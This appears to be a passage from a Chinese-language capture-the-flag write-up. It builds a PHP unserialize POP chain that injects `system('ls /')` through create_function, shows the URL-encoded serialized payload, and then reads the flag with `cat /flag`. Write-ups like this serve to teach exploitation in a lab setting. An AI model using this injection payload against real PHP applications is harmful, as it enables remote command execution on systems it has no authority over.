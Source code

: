 利用一个creat_function()函数去做这里，`$a('', $this->code);`

要执行到getflag的get_flag方法，就可以这样打pop链

```php
<?php
class func
{
    public $key;
    public function __construct()
    {
        $this->key = serialize([new GetFlag(), "get_flag"]);
    }
}

class GetFlag
{
    public $code;
    public $action;
    public function __construct()
    {
        $this->code = ";}system('ls /');//";
        $this->action = "create_function";
    }
}
echo urlencode(serialize(new func()));  
```

`O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D`

成功执行了命令，flag在根目录

![](1.png)

然后就是cat /flag就OK了










